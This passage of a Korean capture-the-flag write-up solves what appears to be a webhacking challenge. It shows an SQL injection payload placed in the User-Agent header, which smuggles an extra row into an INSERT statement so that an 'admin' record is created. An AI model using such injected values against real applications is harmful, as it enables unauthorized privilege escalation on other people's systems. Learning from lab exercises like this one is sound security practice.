 이 부분에서 우리가 입력해서 변경할 수 있는 부분은 **$agent**다. insert 구문에서 우리가 직접 "admin"을 넣는다면 가능할 것이다.

```sql
insert into chall8(agent,ip,id) values('peoplstar','1.1.1.1','admin')
```

이렇게 된다면 우리가 원하는 admin을 HTTP_USER_AGENT 정보를 peoplstar로 넣을 수 있다.

```sql
peoplstar', '1.1.1.1', 'admin'), ('guest
```

 AGENT  | IP | ID | 
:-----: | :----------:|:----------: | 
 peoplstar | 1.1.1.1 | admin |
 guest     | XXX.XXX.XXX.XXX | guest|

이렇게 테이블이 만들어 질 것이다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/187395066-eb704365-837c-48d5-bff2-5a3a367504bd.jpg" width = 440>
</p>

이후 **User-Agent**를 우리가 집어 넣은 Agent를 넣는다면 아래처럼 해결될 겁니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/187395708-3c32ed7e-4ef8-4fa4-abe4-a6f3305410aa.jpg" width = 240>
</p>